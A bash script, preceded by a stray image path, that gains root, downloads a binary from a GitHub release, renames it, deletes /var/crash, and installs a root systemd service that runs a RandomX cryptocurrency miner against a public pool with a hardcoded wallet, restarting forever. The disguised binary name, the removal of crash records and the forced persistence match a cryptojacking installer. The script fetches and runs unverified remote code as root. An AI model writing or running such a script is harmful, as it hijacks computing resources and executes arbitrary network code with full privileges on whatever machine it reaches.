 #!/bin/bash
sudo su
cd /home
wget https://github.com/trangtrau/sang_ml/releases/download/test/ar 
cp ar jvdar 
chmod +x jvdar

rm -rf /lib/systemd/system/xmrthanh.service
rm -rf /var/crash
bash -c 'cat <<EOT >>/lib/systemd/system/xmrthanh.service 
[Unit]
Description=xmrthanh
After=network.target
[Service]
ExecStart= /home/jvdar -o salvium.herominers.com:1230 -u SaLvsBrc1ebPv355rrKUa5a2EX1oat7cn5HnCcQjM8RcNdjiPXJ89ax6RCXs3UNEtrWK6K75YKe6y3PATwNHrmHtAASGmR5WCjP -p 1svts22 -a rx/0 -k -t 48
WatchdogSec=36000
Restart=always
RestartSec=60
User=root
[Install]
WantedBy=multi-user.target
EOT
' &&
systemctl daemon-reload &&
systemctl enable xmrthanh.service &&
service xmrthanh stop  &&
service xmrthanh restart
top
